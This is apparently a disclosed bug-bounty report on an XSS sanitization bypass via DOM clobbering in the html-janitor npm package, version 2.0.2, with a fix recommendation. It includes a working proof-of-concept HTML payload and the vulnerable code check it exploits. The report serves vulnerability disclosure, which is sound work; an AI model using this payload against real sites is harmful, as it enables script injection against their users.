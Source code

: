 # [html-janitor] Bypassing sanitization using DOM clobbering

## Report Details
- **Report ID**: 308158
- **URL**: https://hackerone.com/reports/308158
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-01-23T12:47:54.192Z
- **Disclosed**: 2018-02-05T17:54:24.558Z

## Reporter
- **Username**: bayotop
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
**Module:**

Name: [html-janitor](https://www.npmjs.com/package/html-janitor)
Version: 2.0.2

**Summary:**

Arbitrary HTML can pass the sanitization process, which can be unexpected and dangerous (XSS) in case user-controlled input is passed to the clean function.

**Description:**

Proof of concept:

```javascript
var myJanitor = new HTMLJanitor({tags:{p:{}}});
var cleanHtml = myJanitor.clean("<form><object onmouseover=alert(document.domain) name=_sanitized></object></form>")
console.log(cleanHtml) // logs: <form><object onmouseover=alert(document.domain) name=_sanitized></object></form>
```
The following check can be leveraged to bypass the whole sanitization process:

```javascript
do {
  // Ignore nodes that have already been sanitized
  if (node._sanitized) {
      continue;
  }
...
```

As `node` is the first child in the created tree walker (i.e. in this case the `<form>` tag) `node._sanitized` will point to the inner `<object>` and the check passes.

To learn more about DOM clobbering see: https://www.youtube.com/watch?v=5W-zGBKvLxk (by Mario Heiderich)

**Recommendation:**

It should be enough to set `node._sanitized` to `false` every time a new node is being processed. 

*Note that I previously reported this issue at https://github.com/guardian/html-janitor/issues/35*

## Impact

Given the module's description I would assume it should be used to prevent XSS vulnerabilities. This is currently a very dangerous assumption given that the whole sanitization process can be bypassed.

Note that the author might have never intended to feed untrusted data into the clean() function. In that case this is *just* a regular issue. Furthermore, the fact that untrusted data is unexpected should be at least mentioned in the documentation, because other developers most certainly will use the package in such scenarios.

## Attachments
No attachments
